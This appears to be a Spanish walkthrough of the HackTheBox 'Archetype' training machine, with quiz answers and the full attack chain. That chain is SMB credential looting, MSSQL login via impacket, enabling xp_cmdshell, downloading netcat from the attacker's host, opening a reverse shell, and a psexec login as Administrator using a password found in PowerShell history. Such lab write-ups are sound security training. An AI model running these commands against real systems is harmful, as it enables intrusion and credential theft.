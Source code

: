 
1)¿Qué puerto TCP aloja un servidor de base de datos?
	1433

2)¿Cuál es el nombre del recurso compartido no administrativo disponible a través de SMB?
	backups
	![[Archetype6.png]]

3)¿Cuál es la contraseña identificada en el archivo del recurso compartido SMB?
	M3g4c0rp123

4)¿Qué script de la colección Impacket se puede utilizar para establecer una conexión autenticada a un servidor Microsoft SQL Server?
	mssqlclient.py

5)¿Qué procedimiento almacenado extendido de Microsoft SQL Server se puede utilizar para generar un intérprete de comandos de Windows?
	xp_cmdshell
	Es una función de SQL Server que permite ejecutar comandos del sistema operativo desde consultas SQL. Está deshabilitada por defecto

6)¿Qué script se puede utilizar para buscar posibles rutas para escalar privilegios en hosts Windows?
	Winpeas
	es una herramienta para Windows que automatiza la búsqueda de posibles vectores de **escalada de privilegios**.

7)¿Qué archivo contiene la contraseña del administrador?
	consolehost_history.txt



---
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.217.189
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.217.189 -oG allports
extractPorts allports
nmap -sCV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669 10.129.217.189 -oN target
```

![[Archetype1.png]]

![[Archetype2.png]]

![[Archetype3.png]]

![[Archetype4.png]]
![[Archetype5.png]]
Por el ttl sabemos que es una maquina windows
*Puertos relevantes:*
`445` Es de [[smb]] y por lo que entiendo, dice que al final de todo en smb-security, nos podemos conectar como usuario guest

-------
# [[smb]] Para robar credenciales

```shell
smbclient -L 10.129.217.189 -p 445 -N              / Listamos los directorios
smbclient //10.129.217.189/backups -p 445 -N       / Entramos al directorio backups
```

![[Archetype7.png]]
Descargamos el archivo que esta en el directorio backups, y luego lo abrimos
![[Archetype8.png]]
Nos da dos datos relevantes:
Password=M3g4c0rp123
User ID=ARCHETYPE/sql_svc


-----
# Nos conectamos a la base de datos con impacket mssqlclient

Nos conectamos con impacket
`impacket-mssqlclient ARCHETYPE/sql_svc@10.129.217.189 -windows-auth`

![[Archetype10.png]]

Vamos a chequear con el comando `SELECT is_svrolemember('sysadmin')` si somos admin, si nos da de resultado 1 es true

![[Archetype11.png]]


#### Ahora activamos el [[xp_cmdshell]] ya que estaba desactivado

[Cheatsheet de comandos mssql](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Vamos a activar el [[xp_cmdshell]] por que por defecto viene desactivado

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Ahora hacemos la prueba con `xp_cmdshell "whoami"` para ver si da output
![[Archetype12.png]]
Y como podemos ver responde que somos archetype/sql_svc. Asi que ya confirmamos que esta activado el xp_cmdshell



---------


# [[Reverse shell]] para la intrusion
#### Para mandar la [[Reverse shell]] vamos a necesitar de [[Netcat]]

[Link de netcat para 64bits](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) Vamos a levantar un server de [[python3 -m http.server]] desde nuestra maquina, para que por wget lo descargue la maquina victima. Y a posteriori vamos a ponernos en escucha con  [[rlwrap nc -lvnp 443]] para la reverseshell

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.16/nc64.exe -outfile nc64.exe           / Descargamos el archivo
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.16 443"                       / Mandamos la reverseshell
```

![[Archetype14.png]]
![[Archetype13.png]]

``rlwrap nc -lvnp 443``  Para estar en escucha

![[Imagenes/Archetype16.png]]
Y una vez dentro, podemos visualizar la primera flag

![[Archetype15.png]]



-------
# Escalada de privilegios mediante logs de consola

#### Vamos a visualizar los logs de la powershell para ver si hay algun dato critico

Los logs estan en esta ruta ``C:\Users\sql_svc\appdata\roaming\microsoft\windows\powershell\psreadline``

Y al visualizar el log, vemos una contraseña
![[Archetype16.png]]
MEGACORP_4dm1n!!

#### Asi que vamos a intentar conectarnos con [[impacket-psexec]] ya que esta el servicio [[smb]]

``impacket-psexec Administrator@10.129.95.187 -port 445``
![[Archetype17.png]]
Una vez dentro ya podemos visualizar la flag
![[Archtype18.png]]


--------
# Creditos
Writeup Oficial HackTheBox